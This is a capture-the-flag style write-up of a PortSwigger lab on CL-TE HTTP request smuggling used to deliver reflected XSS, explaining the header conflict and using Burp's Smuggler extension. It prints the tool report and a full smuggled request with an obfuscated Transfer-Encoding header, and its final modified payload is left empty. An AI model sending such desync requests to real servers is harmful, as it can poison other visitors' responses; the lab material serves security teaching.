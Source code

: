 ### HTTP request smuggling
#### Basic information
+ HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users.
Most HTTP request smuggling vulnerabilities arise because the HTTP specification provides two different ways to specify where a request ends: the <b>Content-Length header (CL) and the Transfer-Encoding header(TE)</b>. 
The Transfer-Encoding header can be used to specify that the message body uses chunked encoding. This means that the message body contains one or more chunks of data.<br>
Since the HTTP specification provides two different methods for specifying the length of HTTP messages, it is possible for a single message to use both methods at once, such that they conflict with each other. The HTTP specification attempts to prevent this problem by stating that if both the Content-Length and Transfer-Encoding headers are present, then the Content-Length header should be ignored.<br>
If the front-end and back-end servers behave differently in relation to the (possibly obfuscated) <b>Transfer-Encoding header</b>, then they might disagree about the boundaries between successive requests, leading to request smuggling vulnerabilities. The following scenarios are possible:
1. CL-TE: the front-end server uses the Content-Length header and the back-end server uses the Transfer-Encoding header
1. TE-CL: the front-end server uses the Transfer-Encoding header and the back-end server uses the Content-Length header
1. TE-TE: the front-end and back-end servers both support the Transfer-Encoding header, but one of the servers can be induced not to process it by obfuscating the header in some way
#### Lab enviroment
In the lab the front-end server doesn't support chunked encoding. The application is also vulnerable to reflected XSS via the User-Agent header.
To solve the lab, smuggle a request to the back-end server that causes the next user's request to receive a response containing an XSS exploit that executes <b>alert(1)</b><br><i>Note: you must have HTTP Request Smuggler extention installed in Burp</i>
#### Steps
First we need to verify if the application is vulnerable to HTTP request smuggling (AKA desync attack), so lets proceed to analyze the request for a comment subsmission. 
First verify that the HTPP request smuggler extension is installed: click to Extension (1), then verify that the Smuggler is listed (2), eventually go BApp Store (3) and proceed to the installation. I suggest to set the Output (4) to Save to a file
-- 64 --
In the output we will get the report with the results of the externsion's execution.

Now lets proceed to use the HTTP Request Smuggler, to do that right-click into the Request body and choose Smuggle probe:
-- 65 --
Wait a couple of minute (or tail the file) to get the result that indicates that the application could be prone to CL-TE desyn vulnerability:
```
Updating active thread pool size to 8
Loop 0
Queued 1 attacks from 1 requests in 0 seconds
Unexpected report with response
Found issue: Possible HTTP Request Smuggling: CL.TE multiCase (delayed response)
Target: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Burp issued a request, and got a response. Burp then issued the same request, but with a shorter Content-Length, and got a timeout.<br/> 
This suggests that the front-end system is using the Content-Length header, and the backend is using the Transfer-Encoding: chunked header. 
You should be able to manually verify this using the Repeater, provided you uncheck the 'Update Content-Length' setting on the top menu. 
<br/>As such, it may be vulnerable to HTTP Desync attacks, aka Request Smuggling. 
<br/>To attempt an actual Desync attack, right click on the attached request and choose 'Desync attack'. 
Please note that this is not risk-free - other genuine visitors to the site may be affected.<br/>
...
```
As suggested we should be able to manually test the vulnerability using a payload provided in the report. Scrolling the result we can choose the following:
```
...
POST /post/comment HTTP/1.1
Host: 0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Cookie: session=MbuQ0HO3BxnXptLaE7AxSCZXPfSvpRN9
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 360
Origin: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net
Referer: https://0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net/post?postId=6
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close
tRANSFER-ENCODING: chunked

d9
csrf=p4zKeCvcLDslONzQNKUADCmRI35esBS7&userAgent=Mozilla%2F5.0+%28Windows+NT+10.0%3B+Win64%3B+x64%3B+rv%3A108.0%29+Gecko%2F20100101+Firefox%2F108.0&postId=6&comment=Ehi+ciao&name=filo&email=fiber%40outlook.com&website=
0

GET /?x=5u0ddwptlhzwzk0kkdjae3bt9kfc31/0a57004604fdbb11c0900dc7003c00ec.web-security-academy.net HTTP/1.1
Host: 52.16.21.24
Foo: x
...
```
Copy and paste the request into Reapeter, morover I modified the GET as follows:
```

```
    



#### Reference
+ https://portswigger.net/web-security/request-smuggling
+ https://portswigger.net/web-security/request-smuggling/finding
+ https://portswigger.net/web-security/request-smuggling/exploiting

